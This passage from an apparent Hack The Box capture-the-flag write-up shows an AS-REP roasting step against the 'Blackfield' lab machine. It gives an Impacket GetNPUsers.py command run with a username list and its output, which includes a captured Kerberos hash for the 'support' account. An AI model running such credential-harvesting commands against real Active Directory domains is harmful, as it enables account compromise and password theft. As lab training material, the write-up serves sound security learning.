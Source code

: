 This is the tool we looking for, let’s give a try.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/296181db8d754f9989a8d896078908ba.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/296181db8d754f9989a8d896078908ba.png)

Since we already got some list of users, I decided to use them.

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# GetNPUsers.py -usersfile smb_users -dc-ip 10.10.10.192 -request blackfield.local/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
.
.
.
.
.
$krb5asrep$23$support@BLACKFIELD.LOCAL:61a39b1896f521c0e2f97e2ea34899e6$8045a7e886363c063c13640534e10c5526b9bbe6f89b0a9abb77323b58a384bc244dc66a7b491f8977722875f986f34554d3d5459f998e64def8c5aaf0d415164c46980e9aec221de9abe3cf49cd816fa51b8077128b948c025f831fd80ade0c47734da39ca14dc6e15ef2da5b441e009c887d758a978a505f786caf1a6b833d81dc1fa8a6a3e29bb098149c279622e524b295c7f07946cde5a2abe243209846af5591e0fad7cc67bbb028580064d02ef70461cfb108605be0faf5f3316ede61a80e5e6118f432c2bc27d5f949e23a2d75fba492f80b17a92beabc830b2624204a8cdd7bdddd17343d1ae810eae5d199274a79f0
.
.
.
.
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
